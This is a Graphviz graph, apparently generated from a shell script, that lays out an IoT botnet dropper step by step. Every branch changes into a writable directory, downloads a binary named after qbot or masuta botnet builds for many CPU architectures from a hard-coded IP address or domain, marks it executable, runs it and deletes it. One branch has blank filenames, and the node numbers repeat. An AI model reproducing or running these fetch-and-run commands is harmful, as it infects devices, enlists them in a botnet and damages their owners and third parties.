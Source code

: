 digraph {
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 10 [label="||,"];
10 [label="wget http://198.144.181.15/sunlessqbotmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x sunlessqbotmips "];
12 -> 14 [label=";,"];
14 [label="./sunlessqbotmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf sunlessqbotmips "];
16 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 28 [label="||,"];
28 [label="wget http://198.144.181.15/sunlessqbotmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x sunlessqbotmipsel "];
30 -> 32 [label=";,"];
32 [label="./sunlessqbotmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf sunlessqbotmipsel "];
34 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 46 [label="||,"];
46 [label="wget http://198.144.181.15/sunlessqbotsh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x sunlessqbotsh4 "];
48 -> 50 [label=";,"];
50 [label="./sunlessqbotsh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf sunlessqbotsh4 "];
52 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 64 [label="||,"];
64 [label="wget http://198.144.181.15/sunlessqbotx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x sunlessqbotx86 "];
66 -> 68 [label=";,"];
68 [label="./sunlessqbotx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf sunlessqbotx86 "];
70 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 82 [label="||,"];
82 [label="wget http://198.144.181.15/sunlessqbotarmv61 "];
82 -> 84 [label=";,"];
84 [label="chmod +x sunlessqbotarmv61 "];
84 -> 86 [label=";,"];
86 [label="./sunlessqbotarmv61 "];
86 -> 88 [label=";,"];
88 [label="rm -rf sunlessqbotarmv61 "];
88 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 100 [label="||,"];
100 [label="wget http://198.144.181.15/sunlessqboti686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x sunlessqboti686 "];
102 -> 104 [label=";,"];
104 [label="./sunlessqboti686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf sunlessqboti686 "];
106 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 118 [label="||,"];
118 [label="wget http://198.144.181.15/sunlessqbotpowerpc "];
118 -> 120 [label=";,"];
120 [label="chmod +x sunlessqbotpowerpc "];
120 -> 122 [label=";,"];
122 [label="./sunlessqbotpowerpc "];
122 -> 124 [label=";,"];
124 [label="rm -rf sunlessqbotpowerpc "];
124 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 136 [label="||,"];
136 [label="wget http://198.144.181.15/sunlessqboti586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x sunlessqboti586 "];
138 -> 140 [label=";,"];
140 [label="./sunlessqboti586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf sunlessqboti586 "];
142 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 154 [label="||,"];
154 [label="wget http://198.144.181.15/sunlessqbotm68k "];
154 -> 156 [label=";,"];
156 [label="chmod +x sunlessqbotm68k "];
156 -> 158 [label=";,"];
158 [label="./sunlessqbotm68k "];
158 -> 160 [label=";,"];
160 [label="rm -rf sunlessqbotm68k "];
160 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 172 [label="||,"];
172 [label="wget http://198.144.181.15/sunlessqbotsh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sunlessqbotsh "];
174 -> 176 [label=";,"];
176 [label="./sunlessqbotsh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sunlessqbotsh "];
178 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 190 [label="||,"];
190 [label="wget http://198.144.181.15/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 208 [label="||,"];
208 [label="wget http://198.144.181.15/sunlessqbotwebserver "];
208 -> 210 [label=";,"];
210 [label="chmod +x sunlessqbotwebserver "];
210 -> 212 [label=";,"];
212 [label="./sunlessqbotwebserver "];
212 -> 214 [label=";,"];
214 [label="rm -rf sunlessqbotwebserver "];
214 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 226 [label="||,"];
226 [label="wget http://198.144.181.15/sunlessqbottelnetshit "];
226 -> 228 [label=";,"];
228 [label="chmod +x sunlessqbottelnetshit "];
228 -> 230 [label=";,"];
230 [label="./sunlessqbottelnetshit "];
230 -> 232 [label=";,"];
232 [label="rm -rf sunlessqbottelnetshit "];
232 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 244 [label="||,"];
244 [label="wget http://sunlessmods.xyz/bins/masuta.mips -O a "];
244 -> 246 [label=";,"];
246 [label="chmod +x a "];
246 -> 248 [label=";,"];
248 [label="./a ssh "];
248 -> 250 [label=";,"];
250 [label="rm -rf a "];
250 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 262 [label="||,"];
262 [label="wget http://sunlessmods.xyz/bins/masuta.x86 -O b "];
262 -> 264 [label=";,"];
264 [label="chmod +x b "];
264 -> 266 [label=";,"];
266 [label="./b x86_64 "];
266 -> 268 [label=";,"];
268 [label="rm -rf b "];
268 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 280 [label="||,"];
280 [label="wget http://sunlessmods.xyz/bins/masuta.ppc -O c "];
280 -> 282 [label=";,"];
282 [label="chmod +x c "];
282 -> 284 [label=";,"];
284 [label="./c ssh "];
284 -> 286 [label=";,"];
286 [label="rm -rf c "];
286 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 298 [label="||,"];
298 [label="wget http://sunlessmods.xyz/bins/masuta.sh4 -O d "];
298 -> 300 [label=";,"];
300 [label="chmod +x d "];
300 -> 302 [label=";,"];
302 [label="./d ssh "];
302 -> 304 [label=";,"];
304 [label="rm -rf d "];
304 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 316 [label="||,"];
316 [label="wget http://sunlessmods.xyz/bins/masuta.arm -O e "];
316 -> 318 [label=";,"];
318 [label="chmod +x e "];
318 -> 320 [label=";,"];
320 [label="./e ssh "];
320 -> 322 [label=";,"];
322 [label="rm -rf e "];
322 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 334 [label="||,"];
334 [label="wget http://sunlessmods.xyz/bins/masuta.arm6 -O f "];
334 -> 336 [label=";,"];
336 [label="chmod +x f "];
336 -> 338 [label=";,"];
338 [label="./f ssh "];
338 -> 340 [label=";,"];
340 [label="rm -rf f "];
340 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 352 [label="||,"];
352 [label="wget http://sunlessmods.xyz/bins/masuta.arm7 -O g "];
352 -> 354 [label=";,"];
354 [label="chmod +x g "];
354 -> 356 [label=";,"];
356 [label="./g ssh "];
356 -> 358 [label=";,"];
358 [label="rm -rf g "];
358 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 370 [label="||,"];
370 [label="wget http://sunlessmods.xyz/bins/masuta.mpsl -O h "];
370 -> 372 [label=";,"];
372 [label="chmod +x h "];
372 -> 374 [label=";,"];
374 [label="./h ssh "];
374 -> 376 [label=";,"];
376 [label="rm -rf h "];
376 -> 378 [label=";,"];
378 [label="cd /tmp "];
378 -> 378
380 [label="cd /var/run "];
380 -> 382 [label="||,"];
382 [label="cd /mnt "];
382 -> 384 [label="||,"];
384 [label="cd /root "];
384 -> 386 [label="||,"];
386 [label="cd / "];
386 -> 388 [label="||,"];
388 [label="wget http://sunlessmods.xyz/bins/masuta.sh4 -O i "];
388 -> 390 [label=";,"];
390 [label="chmod +x i "];
390 -> 392 [label=";,"];
392 [label="./i ssh "];
392 -> 393 [label=";,"];
}
